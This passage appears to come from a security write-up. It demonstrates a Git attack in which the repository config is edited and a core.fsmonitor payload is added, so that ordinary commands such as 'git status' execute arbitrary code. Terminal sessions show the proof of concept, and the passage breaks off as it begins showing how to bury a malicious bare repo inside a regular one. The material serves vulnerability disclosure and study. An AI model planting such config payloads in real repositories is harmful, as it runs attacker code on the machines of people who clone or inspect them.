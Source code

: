 Oops, now `git` is complaining that a work tree is set for a bare repo which doesn't make sense. We can set `core.bare` to `false` to fix this. Our repo will still have the structure of a bare repo (in as much as it's not contained within a `.git` directory) but Git will treat it as a regular repo with a work tree.

```plain
root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# sed -i 's/bare = true/bare = false/g' config

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	worktree = "worktree"

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# git status
On branch main

No commits yet

nothing to commit (create/copy files and use "git add" to track)
```

At this point, we can set `core.fsmonitor` to contain a payload which will execute upon commands such as `git status`:

```plain
root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">&2;false"' >> config

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	worktree = "worktree"
	fsmonitor = "echo \"Pwned as $(id)\">&2;false"

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# git status
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
On branch main

No commits yet

nothing to commit (create/copy files and use "git add" to track)
```

## POC - Burying a malicious bare repo within a regular repo

Create the regular repo and the embedded malicious bare repo
